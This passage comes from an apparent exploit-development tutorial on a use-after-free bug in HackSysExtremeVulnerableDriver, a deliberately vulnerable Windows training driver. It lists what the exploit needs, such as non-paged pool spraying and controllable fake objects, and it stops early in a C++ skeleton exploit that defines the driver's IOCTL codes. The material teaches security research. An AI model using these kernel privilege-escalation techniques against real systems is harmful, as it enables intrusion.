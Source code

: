 Also, I wanted to do this on 64 bit; however, most of the strategies I saw outlined required that we use `NtQuerySystemInformation`, which as far as I know requires your process to be elevated to an extent so I wanted to avoid that. On 64 bit, the pool header structure size changes from `0x8` bytes to `0x10` bytes which makes exploitation more cumbersome; however, there are some good walkthroughs out there about how to accomplish this. For now, let's stick to x86. 

What do we need in order to exploit a use-after-free bug? Well, it seems like after doing this excercise we need to be able to do the following: 
+ allocate an object in the non-paged pool,
+ a mechansim that creates a reference to the object as a global variable, ie if our object is allocated at `0xFFFFFFFF`, there is some variable out there in the program that is storing that address for later use,
+ the ability to free the memory and not have the previously established reference NULLed out, ie when the chunk is freed the program author doesn't specify that the reference=NULL,
+ the ability to create "fake" objects that have the same size and **controllable** contents in the non-paged pool,
+ the ability to spray the non-paged pool and create perfectly sized holes so that our UAF and fake objects can be fitted in our created holes,
+ finally, the ability to **use** the no-longer valid reference to our freed chunk. 

## Allocating the UAF Object in the Pool
Let's take a look at the UAF object allocation routine in the driver in IDA. 
![](/assets/images/AWE/1uaf.PNG)

It may not be immediately clear what's going on without stepping through the routine in the debugger but we actually have very little control over what is taking place here. I've created a small skeleton exploit code and set a breakpoint towards the start of the routine. Here is our code at the moment:
```cpp
#include <iostream>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME             "\\\\.\\HackSysExtremeVulnerableDriver"
#define ALLOCATE_UAF_IOCTL      0x222013
#define FREE_UAF_IOCTL          0x22201B
#define FAKE_OBJECT_IOCTL       0x22201F
#define USE_UAF_IOCTL           0x222017

HANDLE grab_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex
        << hFile << "\n";

    return hFile;
}

void create_UAF_object(HANDLE hFile) {

```